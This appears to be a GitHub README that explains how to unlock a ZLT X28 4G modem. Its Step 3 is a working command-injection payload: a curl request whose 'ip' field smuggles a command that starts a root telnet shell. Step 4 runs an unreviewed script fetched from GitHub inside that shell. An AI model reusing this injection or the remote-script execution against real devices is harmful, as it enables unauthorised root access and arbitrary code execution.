


<!-- README.md -->

# 🔓 ZLT X28 | ZLT X28 Modem Unlock

---

### ✨ ZLT X28 Modem Unlock & Custom Admin Panel


### 📊 Device Specifications

| Model | Software Version |
|------------|----------------|
| ZLT X28    | 1.5.13         |

---
## Overview  
The ZLT X28 modem is based on a customized snapshot of [OpenWrt](https://www.google.com/search?q=OpenWrt). Unlocking this modem is straightforward but requires access to another modem (any brand or model) with an active internet connection.  

## Prerequisites  
- A second modem with internet access  
- LAN cable  
- Basic command-line knowledge  

## Step 1: Enable DMZ  
Connect a LAN cable from the internet-enabled modem to **Port 1** of the ZLT X28. This step is mandatory to activate **DMZ**, which cannot be enabled otherwise.  

Next, activate **WAN** on the ZLT X28 as shown below:  



## Step 2: Obtain `sessionId`  
After enabling WAN, you must extract the `sessionId`.  

Open your browser’s **Developer Tools**. The default shortcuts are:  

- **Windows/Linux**:  
  - `F12` → Opens the last used developer tools panel  
  - `Ctrl + Shift + I` → Opens developer tools  
  - `Ctrl + Shift + J` → Opens the Console panel  
  - `Ctrl + Shift + C` → Opens the Elements panel  

- **macOS**:  
  - `Option + Command + I` → Opens developer tools  
  - `Option + Command + J` → Opens the Console panel  
  - `Option + Command + C` → Opens the Elements panel  

- **Other methods**:  
  - Right-click any element → **Inspect / Inspect Element**  
  - Safari: Enable the Developer menu in **Preferences > Advanced**, then use **Develop > Show Web Inspector**.  

Inside Developer Tools, switch to the **Network** tab, select any request, and copy the `sessionId` value. Save it for later use.  



## Step 3: Enable Telnet  
Run the following command from your system’s terminal, replacing the placeholder `sessionId` with the one you retrieved earlier:  

```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' \
--data-raw '{"enabled":"1","ip":"192.168.1.1 ; telnetd -l /bin/ash","cmd":172,"method":"POST","success":true,"subcmd":6,"token":"5948b69147b3850eee5e7266188934c5","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k
```

After this, Telnet will be enabled. Connect using:

```bash
telnet 192.168.70.1
```
## Step 4: Execute Unlock Script

Once inside Telnet, run the following command:
```bash
sh $(https://github.com/mahdigh782/Unlock-ZLT-X28/raw/refs/heads/main/x28)
```
The modem will restart after a few seconds. Once it powers back on, it will be unlocked.

## Donations

If you found this useful, you can support development via TRON (TRX):

💠 Wallet Address: TXDhVJDtkBUq2KN3QYZW4zDtkJkLLwFVgb

## License

This project is licensed under the CC BY-NC 4.0 License.

✅ You are free to share and modify the code.

❌ Commercial use is not allowed.

### 📞 Contact
📬 Telegram: @zlt_x28_unlock
---

#ZLT_X28 #Modem_Unlock #Admin_Panel_Access #Custom_Modem_UI #Firmware_Upgrade #4G_Modem_Unlock #Network_Unlock_ZLT #ZLT_Admin_Unlock


